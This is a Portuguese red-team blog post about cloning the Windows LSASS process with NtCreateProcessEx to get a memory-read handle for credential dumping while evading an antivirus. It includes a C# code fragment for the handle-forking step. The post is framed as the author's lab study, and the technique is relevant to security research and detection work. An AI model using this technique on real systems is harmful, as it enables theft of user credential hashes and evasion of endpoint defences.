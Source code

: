 ```yaml
---
title: "LSASS: A reciclagem também está presente nos handles."
date: 2023-06-03 00:00:00 +0800
categories: [Windows]
tags: [Red Team]
---
```



Como sabemos, o processo do LSASS é um tesouro quando se observado pelo lado ofensivo. É neste processo que informações de logons de usuários são armazenados (como as valiosas NT hashes). Quando o assunto é dump de credenciais, um handle com permissões de `PROCESS_VM_READ` ao LSASS se torna tudo o que um atacante quer.

> `PROCESS_VM_READ¹`: permissão necessária para a leitura da memória (dump) de um processo. 
{: .prompt-info }

Contextualizando: durante meus estudos de Windows API, estive aprofundando em técnicas de dump de LSASS que normalmente um EDR/XDR não detectaria. Em um laboratório, instalei um famoso antivírus do mercado (no qual não citarei o nome) e que me rendeu bastante trabalho. Quando eu abria um handle pro LSASS e tentava interagí-lo, um erro era retornado: `STATUS_ACCESS_DENIED`.

![Desktop View](https://i.imgur.com/RBZ4JSv.png)

No código, primeiro é aberto um handle pro LSASS com o acesso `PROCESS_CREATE_PROCESS²`. Como exibido na captura de tela acima, o erro ocorria na execução da API `NtCreateProcessEx³`. Esse erro ocorre devido a privilégios insuficientes dados ao handle.

```csharp
	uint accessParentProcess = PROCESS_CREATE_PROCESS;
	uint accessChildProcess = PROCESS_QUERY_INFORMATION | PROCESS_VM_READ ;

	IntPtr hParentProcess = OpenProcess((uint)accessParentProcess, false, Convert.ToUInt32(pid)); // abrindo um handle ao LSASS com PROCESS_CREATE_PROCESS

	Console.WriteLine($"[+] Handle: {hParentProcess}");

  // clonando o processo do LSASS

	int ningning = NtCreateProcessEx(
		out IntPtr hChildProcess,
		(uint)accessChildProcess,
		IntPtr.Zero,
		hParentProcess,
		0,
		IntPtr.Zero,
		IntPtr.Zero,
		IntPtr.Zero,
		false
	);

	if (ningning == 0)
	{
		uint hChildPid = GetProcessId(hChildProcess);

		Console.WriteLine($"[^] Forked Handle: {hChildProcess}");
		Console.WriteLine($"[^] Forked PID: {hChildPid}");
	}
```

> `PROCESS_CREATE_PROCESS²`: permissão necessária criar uma fork (clone) de um processo alvo.
{: .prompt-info }

![Desktop View](https://i.imgur.com/RUkXM62.png)
